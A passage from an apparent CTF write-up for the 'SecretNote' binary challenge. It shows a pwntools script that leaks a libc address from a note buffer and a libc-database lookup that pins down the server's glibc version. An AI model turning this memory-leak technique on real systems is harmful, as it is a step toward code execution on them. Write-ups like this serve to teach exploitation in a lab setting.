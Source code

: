 As you can see, **there is a libc address 8-bytes into our buffer**. We can leak this by writing exactly 8 bytes _(and thus overwriting the NULL terminators)_ to the chunks, and then printing from it.

This will result in the libc address being printed together with our 8-byte input.

```py
from pwn import *

p = process("./SecretNote")

# write exactly 8 bytes to buffer
p.sendlineafter(b"name : ", b"CDDC")
p.sendlineafter(b"[>]", b"2")
p.sendlineafter(b"page : ", b"32")
p.sendafter(b"note : ", b"a"*8)

# read buffer (8 bytes + libc address)
p.sendlineafter(b"name : ", b"CDDC")
p.sendlineafter(b"[>]", b"1")
p.sendlineafter(b"page : ", b"32")
p.recvuntil(b"Note: aaaaaaaa")

# print leak
libc_leak = unpack(p.recvline()[:-1], "all")
log.info(f"libc leak @ {hex(libc_leak)}")
# [*] libc leak @ 0x7d01d3064d90

p.interactive()
```

### Identifying the remote LIBC

If we run the script above on the server, we can use the address `0x7d01d3064d90` to identify possible GLIBC versions that the server might be running.

By either using [libc.rip](https://libc.rip) or your own self-hosted [libc database](https://github.com/niklasb/libc-database/), we can search up the address and the symbol name to get the shell.

```sh
❯ ./find __libc_start_main_ret 0x7d01d3064d90
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu1_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.1_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.2_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.3_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.4_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.5_amd64)
ubuntu-glibc (libc6_2.35-0ubuntu3.6_amd64)
launchpad-ubuntu-glibc-jammy (libc6_2.35-0ubuntu3.7_amd64)
ubuntu-glibc (libc6_2.35-0ubuntu3.8_amd64)
ubuntu-glibc (libc6_2.35-0ubuntu3_amd64)
```

> Typically when you see a return address of `main` that is some offset of `libc_start_main`, it can be used to do a libc search with the symbol `__libc_start_main_ret`.
{: .prompt-tip}
